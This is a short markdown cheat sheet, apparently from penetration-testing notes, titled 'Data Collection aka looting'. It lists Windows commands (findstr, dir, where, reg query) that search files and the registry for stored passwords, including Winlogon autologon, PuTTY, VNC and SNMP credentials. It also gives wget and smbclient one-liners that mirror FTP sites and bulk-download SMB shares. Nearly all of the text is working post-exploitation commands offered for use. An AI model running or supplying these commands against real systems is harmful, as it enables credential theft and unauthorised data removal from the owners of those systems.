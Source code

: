 # Data Collection  aka looting

## Windows  

Searching inside files for passwords.  
`cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt`  
`findstr /si password *.xml *.ini *.txt *.config`  
`findstr /spin "password" *.*`  

searching for files with certain filenames  
`dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`  
`where /R C:\ user.txt`  
`where /R C:\ *.ini`  

search the registry for key names and passwords  
`REG QUERY HKLM /F "password" /t REG_SZ /S /K`  
`REG QUERY HKCU /F "password" /t REG_SZ /S /K`  

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin`  
`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"`  
`reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters`  
`reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials`  
`reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials`  
`reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password`  

`reg query HKLM /f pass /t REG_SZ /s`
`reg query HKLM /f password /t REG_SZ /s`   
`reg query HKCU /f password /t REG_SZ /s`  

## Mirror FTP sites  

```
wget -r -nH ftp://anonymous:anonymous@ipaddress//
```
## Download using smbclient

`smbclient '\\server\share' -N -c 'prompt OFF;recurse ON;cd 'path\to\directory\';lcd '~/path/to/download/to/';mget *'`
